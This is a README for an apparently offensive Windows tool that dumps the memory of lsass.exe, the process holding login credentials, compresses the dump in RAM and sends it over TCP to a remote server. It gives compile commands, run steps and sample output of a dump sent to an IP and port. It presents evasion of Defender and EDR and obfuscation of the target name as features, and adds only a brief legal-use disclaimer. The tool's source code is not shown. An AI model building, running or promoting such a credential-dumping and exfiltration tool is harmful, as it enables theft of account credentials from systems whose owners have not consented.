 # Memory Dumper for lsass.exe

## Description

This program dumpin the memory of the `lsass.exe` process on a Windows system, compressing the dump using the **zlib** library, and sending the compressed file to a remote server via a network connection. It is particularly useful in situations where tools like Mimikatz cannot be used. All operations, including the memory dump and compression, are performed entirely in RAM to avoid detection by defender and EDR.

### Key Features

1. **Retrieve PID of `lsass.exe`**: The process is identified by its name using Windows APIs.
2. **Memory Dump**: The process memory is extracted using `MiniDumpWriteDump`.
3. **Data Compression**: The extracted data is compressed using the **zlib** library to reduce file size.
4. **Network Transmission**: The compressed data is sent to a remote server over TCP.
5. **Obfuscation**: The target process name (`lsass.exe`) is obfuscated in the source code to bypass basic analysis.

## Prerequisites

### Environment
- **Windows**
- **Compiler compatible with Windows APIs**: MinGW, Visual Studio, etc.

### Required Libraries
- **zlib**: For data compression.
- **DbgHelp**: For using `MiniDumpWriteDump`.
- **Winsock2**: For network communication.

## Compilation

### Steps with MinGW
1. Ensure MinGW is installed and configured.
2. Compile the source file using the following command:

   ```bash
   g++ -o memory_dumper.exe memory_dumper.cpp -lz -lws2_32 -ldbghelp
   ```

### Steps with Visual Studio
1. Open the `.cpp` file in Visual Studio.
2. Add the required libraries (`DbgHelp.lib`, `ws2_32.lib`) to the project settings.
3. Compile the project.

## Usage

1. Run the executable as an administrator (required to access `lsass.exe`).

   ```bash
   memory_dumper.exe
   ```

2. Provide the server IP and port when prompted.

3. The program:
   - Identifies the `lsass.exe` process.
   - Dumps its memory into a buffer.
   - Compresses the data.
   - Sends the data to the specified server.

### Example

```plaintext
[*] Enter server IP: 192.168.1.100
[*] Enter server port: 4444
[+] Memory dump completed. Size: 16777216 bytes.
[+] Compression completed. Compressed size: 524288 bytes.
[+] Sent 524288 bytes to server.
[+] Done!
```

## Warnings

- **Legal Use Only**: This program is intended for educational or diagnostic purposes on your own systems or as part of authorized audits.
- **Required Permissions**: Ensure you have administrative rights to execute this program.
- **Detection Risk**: Although the program uses basic obfuscation, it may still be detected by advanced security solutions.

## Dependencies

- **zlib**: [zlib.net](https://zlib.net)
- **DbgHelp**: Included with the Windows SDK.
- **Winsock2**: Built into Windows.

## Contributions
Contributions to improve this program or suggest optimizations are welcome. Create a pull request or submit an issue if you want
